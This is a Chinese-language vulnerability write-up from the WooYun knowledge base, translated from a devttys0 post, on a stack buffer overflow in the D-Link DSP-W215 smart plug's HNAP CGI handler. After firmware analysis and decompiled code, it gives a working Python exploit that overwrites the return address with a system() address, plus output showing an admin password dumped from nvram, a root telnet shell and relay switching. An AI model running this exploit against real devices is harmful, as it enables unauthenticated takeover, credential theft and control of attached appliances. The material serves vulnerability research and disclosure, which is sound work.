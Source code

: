 # D-LinkDSP-W215 智能插座远程命令执行

2014/05/20 13:19 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

D-Link DSP-W215 智能插座是一款通过无线控制电源开关的插座。现在还不能从亚马逊和百思买买到，但是固件可以从 D-Link 网站下载（真蛋疼）。

DSP-W215 存在一个堆栈溢出漏洞，通过该漏洞可以控制整个插座设备，也能控制插座设备上其他电器设备的开关。

## 0x01 分析

* * *

分析插座的固件：

![enter image description here](img/img1_u3_png.jpg)

Lzma 压缩，linux 文件系统，uimage 内核压缩镜像。

解压检查文件的内容，发现没有基于 web 的管理界面，只能用它提供的 Android 或者 IOS 应用进行管理，该应用使用了 HNAP（家庭网络管理协议）。

HNAP 是基于 soap 协议，其 req/res 如下：

![enter image description here](img/img2_u7_png.jpg)

更多查看[`www.cisco.com/web/partners/downloads/guest/hnap_protocol_whitepaper.pdf`](http://www.cisco.com/web/partners/downloads/guest/hnap_protocol_whitepaper.pdf)

这个智能插座用 lighttpd 轻量级服务器来实现 HNAP 协议的传输，从 lighttpd 的配置上看，HNAP 请求都发送到了`/www/my_cgi.cgi`进行处理。

```
...
alias.url += ( "/HNAP1/" => "/www/my_cgi.cgi",
               "/HNAP1"  => "/www/my_cgi.cgi",
...

```

HNAP 虽然是需要进行认证的协议，但是某些行为是不需要的，如获取设备信息设置之类。

![enter image description here](img/img3_u50_png.jpg)

HNAP 请求数据是由在 my_cgi.cgi 的 do_hnap 函数处理。do_hnap 会首先处理 POST 请求中指定的 Content-Length 头。

![enter image description here](img/img4_u6_png.jpg)

转换长度（str）为 int.

然后，它读取上述长度字节的数据放入一个分配了固定大小的栈中。（500,000 字节）

![enter image description here](img/img5_u77_png.jpg)

F5 转换成 c 代码为：

```
int content_length, i;
char *content_length_str;
char post_data_buf[500000];

content_length = 0;
content_length_str = getenv("CONTENT_LENGTH");

if(content_length_str)
{
   content_length = strtol(content_length_str, 10);
}

memset(post_data_buf, 0, 500000);

for(i=0; i<content_length; i++)
{
   post_data_buf[i] = fgetc();
}

```

明显未对 content_length 进行检查，可以写入大于 500,000 字节的数据进行溢出，但是栈里不止包含 post_data_buf 这个数组，所以需要 1,000,020 进行溢出。

```
perl -e 'print "D"x1000020; print "A"x4' > overflow.txt
wget --post-file=overflow.txt http://192.168.0.60/HNAP1/

```

![enter image description here](img/img6_u76_png.jpg)

Arm 寄存器真蛋疼。

由于是 getc 获取的数据，所以可以传入空字节。作者测试自己 my_cgi.cgi 进程中执行 system 地址 0x00405CAC 需要读入空字节。

![enter image description here](img/img7_u64_png.jpg)

所以 ，只需要把返回地址覆盖成 0x00405CAC，并把栈的偏移 28 位处加入需要执行的指令代码。

## 0x02 EXP

* * *

```
import sys
import urllib2

command = sys.argv[1]

buf =  "D" * 1000020         # Fill up the stack buffer
buf += "\x00\x40\x5C\xAC"    # Overwrite the return address on the stack
buf += "E" * 0x28            # Stack filler
buf += command               # Command to execute
buf += "\x00"                # NULL terminate the command string

req = urllib2.Request("http://192.168.0.60/HNAP1/", buf)
print urllib2.urlopen(req).read()

```

执行后得到的数据：

```
eve@eve:~$ ./exploit.py 'ls -l /'
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 bin
drwxrwxr-x    3 1000     1000         4096 May  9 16:04 dev
drwxrwxr-x    3 1000     1000         4096 Sep  3  2010 etc
drwxrwxr-x    3 1000     1000         4096 Jan 14 14:16 lib
drwxr-xr-x    3 1000     1000         4096 Jan 14 14:16 libexec
lrwxrwxrwx    1 1000     1000           11 May  9 16:01 linuxrc -> bin/busybox
drwxrwxr-x    2 1000     1000         4096 Nov 11  2008 lost+found
drwxrwxr-x    7 1000     1000         4096 May  9 15:44 mnt
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 mydlink
drwxrwxr-x    2 1000     1000         4096 Nov 11  2008 proc
drwxrwxr-x    2 1000     1000         4096 May  9 17:49 root
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 sbin
drwxrwxr-x    3 1000     1000         4096 May 15 04:27 tmp
drwxrwxr-x    7 1000     1000         4096 Jan 14 14:16 usr
drwxrwxr-x    3 1000     1000         4096 May  9 16:04 var
-rw-r--r--    1 1000     1000           17 Jan 14 14:16 version
drwxrwxr-x    8 1000     1000         4096 May  9 16:52 www

```

也可以直接 dump 配置：

```
eve@eve:~$ ./exploit.py 'nvram show' | grep admin
admin_user_pwd=200416
admin_user_tbl=0/admin_user_name/admin_user_pwd/admin_level
admin_level=1
admin_user_name=admin
storage_user_00=0/admin//

```

或通过开启 telnet 得到一个 shell

```
eve@eve:~$ ./exploit.py 'busybox telnetd -l /bin/sh'
eve@eve:~$ telnet 192.168.0.60
Trying 192.168.0.60...
Connected to 192.168.0.60.
Escape character is '^]'.

BusyBox v1.01 (2014.01.14-12:12+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

/ #

```

打开开关 关闭开关

```
/var/sbin/relay 1   # Turns outlet on
/var/sbin/relay 0   # Turns outlet off

```

作者还搞了个让灯闪烁的脚本：

```
#!/bin/sh

OOK=1

while [ 1 ]
do
   /var/bin/relay $OOK

   if [ $OOK -eq 1 ]
   then
      OOK=0
   else
      OOK=1
   fi
done

```

D-Link’s DIR-505L 也存在这个漏洞。

from:http://www.devttys0.com/2014/05/hacking-the-d-link-dsp-w215-smart-plug/

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Perl 数据类型安全研究【翻译】](http://drops.wooyun.org/papers/4505)
*   [Memcache 安全配置](http://drops.wooyun.org/papers/865)
*   [深入探讨 ROP 载荷分析](http://drops.wooyun.org/papers/4077)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)
*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)
*   [WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)